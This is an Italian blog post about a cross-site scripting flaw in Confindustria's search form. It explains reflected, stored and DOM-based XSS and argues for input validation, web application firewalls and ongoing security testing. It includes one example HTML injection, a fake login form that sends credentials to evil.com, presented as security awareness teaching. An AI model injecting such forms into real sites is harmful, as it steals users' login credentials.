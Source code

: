 ```yaml
---
layout: post
title: "I cross site scripting. Non sono tornati, sono sempre stati qui"
modified:
category: [Chiacchiere da bar]
tags: [xss, validare l'input, sanitizzare l'input, filtro, caratteri illegati, confindustria, ibm, media company, asap, vulnerabilità]
image:
  feature: conf-xss.png
  credit: Matteo Flora
  creditlink: http://mgpf.it/2014/09/19/sito-confindustria-colabrodo.html
comments: true
share: true
---
```


Qualche giorno fa ero alla stazione di Roma Tiburtina in attesa del treno che
avrebbe chiuso una due giorni di _security awareness_. Tra le altre cose ho
parlato anche di [cross site scripting](https://www.owasp.org/index.php/Cross-site_Scripting_\(XSS\)), spiegando come sia una
vulnerabilità ormai in giro da un bel po' di tempo.

Leggevo su [Il sole 24
ore](http://www.ilsole24ore.com/art/tecnologie/2014-09-17/confindustria-rinnova-sito-diventa-social-network-le-imprese-141632.shtml?uuid=ABU5ScuB)
che era online il nuovo sito di [confindustria](http://www.confindustria.it),
nato da una partnership con [IBM](http://www.ibm.com) e da una media company
che ne ha curato il layout grafico.

Se si è scomodata _big blue_ appare chiaro che il progetto deve essere stato
bello grosso. IBM, è utile ricordarlo, è quella che nel suo portafoglio vanta
un prodotto commerciale di [application security](http://www-03.ibm.com/software/products/en/appscan) a tutto
tondo, quell'AppScan croce e delizia di chi l'ha visto all'opera[^1].

Bene, il sito istituzione di [confindustria](http://www.confindustria.it)
soffre di un banalissimo cross site scripting[^2] nella form di ricerca, come
ci mostra [@LK](http://mgpf.it/2014/09/19/sito-confindustria-colabrodo.html) al quale va anche il credit per l'immagine
usata per questo post.

## Che cos'è il cross site scripting?

Giuro, ero indeciso se dedicare un intero post alla descrizione di cosa sia un
cross site scripting e di come mitigarlo. Evidentemente sbagliavo nel pensare
che l'awareness su temi _veramente base_ della sicurezza applicativa si fosse
diffuso, almeno ad un certo livello.

> Quando un'applicazione web prende un input proveniente dall'esterno e lo usa
> **così com'è** nell'HTML che verrà inviato al browser allora è vulnerabile ad
> un cross site scripting.

Cosa significa essere vulnerabile? Significa che un attaccante può passare
all'applicazione dei pezzi di codice javascript che verranno inseriti nel
sorgente della pagina che sarà inviata al browser.

Ricevendo quell'HTML modificato, il browser della vittima eseguirà il codice
arbitrario inserito dall'attaccante.

Quindi, se io volessi aggiungere una maschera di login ad un sito vulnerabile,
potrei iniettare nel codice della pagina qualcosa come:

{%highlight html%}
<form action="http://www.evil.com/evil.do">
  <input name="login" placeholder="login" type="text" />
  <input name="password" placeholder="login" type="password" />
</form>
{%endhighlight %}

> Il cross site scripting è una vulnerabilità lato server perché è introdotta
> da un uso insicuro dell'input utente da parte di un'applicazione web,
> tuttavia viene sfruttata lato client ovvero è il browser della vittima ad
> eseguire il codice arbitrario.

L'applicazione vulnerabile prenderebbe il codice di questa form e lo metterebbe
nell'html da inviare al browser. In questo modo ci sarebbe una form che
nell'html originale pensato dallo sviluppatore non era presente. Per l'utente
(vittima), questa form non è altro che parte integrante della pagina che sta
visualizzando. La vittima dell'attacco è portata a credere che il contenuto che
vuole visualizzare è accessibile previa autenticazione. Autenticazione, falsa,
che verrebbe effettuata verso il sito sotto il controllo dell'attaccante.

Il cross site scripting è una vulnerabilità che si presenta in 3 varianti
distinte:

* reflected
* stored
* DOM based

Un XSS è _reflected_ se il valore del parametro vulnerabile viene utilizzato
immediatamente dall'applicazione per generare una pagina successiva. La
differenza con un XSS _stored_ è appunto che quest'ultimo salva il valore del
parametro vulnerabile, che contiene il codice js arbitrario inserito
dall'attaccante, in un database (ad esempio, ma potrebbe essere anche un file
di testo letto successivamente). Un XSS di tipo _stored_ quindi non viene
sfruttato immediatamente dall'attaccante, ma resta lì silente fino a quando
quel dato non viene recuperato da db e utilizzato dall'applicazione.

Potenzialmente un cross site scripting di tipo stored può impattare molti più
utenti nel momento in cui l'accesso a quel dato è pubblico ad esempio.

Un XSS è di tipo _DOM based_ quando il pattern d'attacco viene passato nell'url
dopo il carattere #. Solitamente nelle UI evolute c'è molto codice javascript
dedicato alla costruzione dell'interfaccia e al popolamento della stessa con
dati che non serve vengano inviati al server. Se il javascript gestisce quello
passato dopo il # in maniera non sicura, abbiamo che è possibile iniettare
codice arbirtario direttamente nel DOM della pagina quando il browser cerca di
utilizzare questi dati per costruire, ad esempio, la UI del sito.

La differenza importante, in questo caso, è che il codice d'attacco non viene
mandato al server ma viene preso dal browser ed accodato al DOM non appena il
server restituisce la pagina in risposta. Avendo spostato il codice web lato
client è chiaro che anche le issue di security si spostano anche lato client.

Negli altri due casi possiamo dire che il cross site scripting è una
vulnerabilità lato server perché è introdotta da un uso insicuro dell'input
utente da parte di un'applicazione web, tuttavia viene sfruttata lato client
ovvero è il browser della vittima ad eseguire il codice arbitrario.

## Storie di ordinaria banfa

Gestire l'input in maniera opportuna non è fantascenza da Web 2.0. Vi ricordate
gli anni '90? Vi ricordate quando si parlava di buffer overflow? Ecco, se vi
ricordate cos'è un buffer overflow, dovreste ricordare come il problema fosse
nel mancato controllo della lunghezza di un dato in input nel momento della
copia in un array.

Sono passati una trentina d'anni e ci ostiniamo a non fare alcun controllo
quando un utente ci da un input. Alcune issue di security gravi, come il XSS o
le SQL Injection, potrebbero essere mitigate in maniera **banale**
dall'applicazione di una regular expression o di qualche if che rispedisca al
mittente un input quando non è quello che ci attendevamo.

Se stiamo leggendo un codice fiscale, ad esempio, sappiamo molto bene quando un
input è lecito e quando no (anche senza entrare nel dettaglio se il valore
passato è un codice fiscale corretto semanticamente).

Se stiamo leggendo un cognome probabilmente avremmo costruito quel campo con
una lunghezza fissa, quindi perché permettere che l'utente inserisca la divina
commedia?

Certo, ci hanno insegnato che i linguaggi dinamici hanno una gestione
_migliore_ della memoria e quindi non dobbiamo preoccuparci di overflow in
quanto è la virtual machine sottostante a gestire le reallocazioni e le free
della memoria non più indirizzata.

Corretto. Questo, tuttavia, **non** vuol dire scrivere codice che non si
preoccupi di fare dei controlli sui valori dell'input calati nel contesto della
vostra applicazione.

Al netto che porre rimedio a XSS e SQL Injection è un fatto di scrivere codice
di un livello di qualità decente, questa storia mette a nudo ahimé una mancanza
di awareness che interessa livelli molto in alto dell'IT italiano, laddove la
qualità dovrebbe essere un must.

In confindustria non c'è un settore IT Security. Questo ci può stare, dopotutto
è un'associazione che, seppur importante per l'imprenditoria italiana, non si
occupa direttamente di software / web.

IBM, che ha gestito la commessa con una web agency per la parte di _figosità
del sito_, non ha saputo dare supporto su temi di IT Security. E questo mi
lascia perplesso.

Mi lascia perplesso che il loro application server, _websphere_, non venga
installato seguendo best practices che vogliono anche l'installazione di un web
application firewall. Esiste [mod_security](http://www.modsecurity.org) che è
opensource e con l'[Owasp Core
Ruleset](https://www.owasp.org/index.php/Category:OWASP_ModSecurity_Core_Rule_Set_Project)
introduce un buon livello di protezione. Se non avete idea di come si installi,
ne ho scritto dopo tempo fa in [questo
post](https://codiceinsicuro.it/blog/lasap-parte-da-solide-fondamenta-ed-una-lucente-armatura/).

Mi lascia perplesso che loro, che sono vendor di tool di application security,
non abbiano come prassi consolidata quella di eseguire un penetration test
applicativo prima della messa in esercizio di un sito, soprattutto se
istituzionalmente importante come quello di confindustria.
Hanno il software per eseguire i test, hanno il know-how (forse) perché vendono
servizi professionali di security non credo abbiano problemi nell'annegare
qualche K di attività in un progetto che di sicuro sarà costato qualche
soldino.

Di sicuro ci sono strutture mastodontiche dentro IBM che non si parlano, ma...
se io sono uno sviluppatore o un manager di IBM, davvero non so quello che fa o
vende la mia azienda in campo IT Security?

## Off by one

> Difficilmente compreresti una casa senza porta blindata? Probabilmente no, ci
> sono i ladri e sono interessati potenzialmente ai tuoi averi anche se non sei
> un milionario.

Di sicuro c'è poca sensibilità in giro sui temi di sicurezza applicativa.
L'attacco informatico viene visto come qualcosa che accade nei film e che
interessa solo le banche. Se l'IT rappresenta un puro costo aziendale, e
nell'era avanzata della net economy questo fa solo capire quanto anche il
decision maker italiano medio sia **miope**, l'IT security è vista come un
costo superfluo dentro l'IT.

Tuttavia, difficilmente compreresti una casa senza porta blindata?
Probabilmente no, ci sono i ladri e sono interessati potenzialmente ai tuoi
averi anche se non sei un milionario. Quindi la porta blindata è in realtà un
investimento necessario.

Che poi, vengono attaccate le banche, parliamone... basta guardare questo
[report del ITRC sui data breach avvenuti nei primi mesi del
2014](http://www.idtheftcenter.org/images/breach/ITRCBreachStatsReportSummary2014.pdf)
per accorgersi che è un luogo comune tanto falso quanto duro a morire. Nel 2014
solo il 4,3% dei data breach negli Stati Uniti hanno interessato il settore
bancario e finanziario.

A questo punto perché non lo è l'avvio di un programma aziendale di application
security? Si perché se ci limitassimo a fare un penetration test ogni tanto,
anche se sarebbe già qualcosa, butteremmo via soldi e tempo.

La security non è un tool, è un processo. Questo mantra lo sentite in ogni talk
che si rispetti. Evitare disastri come quello del sito di confindustria quindi
non è solo grazie all'esecuzione di un penetration test spot. Disastri del
genere, e cose ben peggiori, si evitano con un team preparato di application
security che sensibilizzi utenti finali e sviluppatori. Si evitano con linee
guida di sviluppo sicuro e test di security sia rivolti al codice sorgente che
penetration test tradizionali e ripetuti nel tempo.

Si evitano anche ingaggiando società terze che non la buttano solo sul blasone,
ma che ci mettono anche del contenuto.

[^1]: e di chi l'ha potuto usare in passato quando sotto il marchio Watchfire
      era veramente un tool che spaccava.

[^2]: a questo punto possiamo abbreviare cross site scripting con XSS, ormai
      siamo in confidenza.
